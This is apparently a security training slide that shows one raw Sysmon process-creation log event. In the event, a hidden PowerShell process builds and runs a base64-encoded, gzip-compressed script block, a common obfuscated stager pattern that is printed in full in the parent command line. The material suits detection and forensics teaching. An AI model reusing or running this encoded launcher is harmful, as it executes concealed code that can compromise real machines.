

# POWERSHELL PROCESS
"Process Create:
RuleName:
UtcTime: 2019-03-26 21:14:44.276
Image: C:\Windows\System32\conhost.exe
FileVersion: 10.0.17134.1 (WinBuild.160101.0800)
Description: Console Window Host
Product: Microsoft? Windows? Operating System
Company: Microsoft Corporation
CommandLine: \??\C:\WINDOWS\system32\conhost.exe 0xffffffff -ForceV1
CurrentDirectory: C:\WINDOWS
User: PC2\user
IntegrityLevel: High
Hashes: SHA256=04B6A35BC504401989B9E674C57C9E84D0CBDBBD9D8CE0CE83D7CECA0B7175ED
ParentImage: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ParentCommandLine: ""powershell.exe"" -noni -nop -w hidden -c &([scriptblock]::create((New-Object IO.StreamReader(New-Object IO.Compression.GzipStream((New-Object IO.MemoryStream(,[Convert]::FromBase64String('H4sIAFuWmlwCA7VW/W+iSBj+uU36P5CNiZBaRWu7vSabHCAornRlUbR65kJhhFkHcGGo4t7+7/eOQLebbe92LzlCwny8n8/7zLyss8ilOI44/5r7cnZ6MnYSJ+T42mZ+3eBqIRZOTmC1Fut2yr3j+KW03fbi0MHR6vZWyZIERbSYN/uISmmKwgeCUcoL3F/cLEAJuvjw8Am5lPvC1f5s9kn84JBSLFccN0DchRR5bG8Uuw6LpGltCaZ8/+VTc79RPrZ2Kh7tN+/aUbV0e7uAIOHA7m6aIxT5NGiI+0tRhN4i7rsi5PjzaSnxNufBUIN1pgKWwjA5GhbY+a2lgTf/P8Eq74wAPt6/gvVt7R92fwpAsVEm/MP69wu/BOgvpj5zMAU5C649gorW+woCJTOe/Z2wskDl1+XDfi8/ZPTiDn5azk7/BrreYUTFCgAA'))),[IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))";"1";"5";;"4";"1";"0";"-9223372036854775808";"589779";"Microsoft-Windows-Sysmon";"5770385f-c22a-43e0-bf4c-06f5698ffbd9";"Microsoft-Windows-Sysmon/Operational";"2236";"2264";"PC2";"S-1-5-18";"26.03.2019 22:14:44";;;"Microsoft-Windows-Sysmon/Operational";"System.UInt32[]";"System.Diagnostics.Eventing.Reader.EventBookmark";"Information";"Info";"Process Create (rule: ProcessCreate)";"System.Collections.ObjectModel.ReadOnlyCollection`1[System.String]";"System.Collections.Generic.List`1[System.Diagnostics.Eventing.Reader.EventProperty]"